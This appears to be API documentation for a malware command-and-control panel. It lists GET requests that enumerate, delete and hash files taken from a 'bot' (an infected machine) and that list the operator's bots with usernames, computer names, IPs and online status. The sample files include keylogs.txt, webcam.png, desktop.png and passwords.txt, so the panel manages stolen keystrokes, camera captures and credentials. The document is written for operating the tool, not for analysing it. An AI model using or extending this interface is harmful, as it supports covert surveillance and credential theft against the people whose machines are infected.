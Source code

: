 ###### GET FILES LIST FROM BOT DIRECTORY:
**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&bot_uuid=BOT_UUID&ls_
```json
{
   "status":"Success",
   "message":"Here your files list!",
   "files":[
      "keylogs.txt",
      "desktop.png",
      "webcam.png",
      "passwords.txt"
   ]
}
```

###### REMOVE FILE FROM BOT DIRECTORY:
**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&bot_uuid=BOT_UUID&rm=file_
```json
{
   "status":"Success",
   "message":"File removed",
   "value":true
}
```

###### GET FILE HASH(md5) FROM BOT DIRECTORY:
**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&md5=users/profile/bot_uuid/passwords.txt_
```json
{
   "status":"Success",
   "message":"File hash found!",
   "hash":"8aa7118dad83623f5c78f2e2a0291c60",
   "path":"users/LimerBoy/0d94a079-07dd-4409-a30d-a4f49bb33975/passwords.txt",
   "value":true
}
```

###### GET MY BOTS:
> `login_password` It a password from account  

**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&login_password=PASSWORD&get_my_users_
```json
{
   "status":"Success",
   "message":"Loading you users list.",
   "value":true,
   "users":[
      {
         "uuid":"0d94a079-07dd-4409-a30d-a4f49bb33975",
         "username":"lalalalala",
         "computername":"lililili",
         "remote_ip":"XXX.XXX.XXX.XXX",
         "last_time":"11:56 10.12.2019",
         "online":true
      },
      {
         "uuid":"24sda943-09ad-fds3-a20d-a4f4sdb2975",
         "username":"Admin",
         "computername":"PC",
         "remote_ip":"XXX.XXX.XXX.XXX",
         "last_time":"10:50 9.10.2019",
         "online":false
      }
   ]
```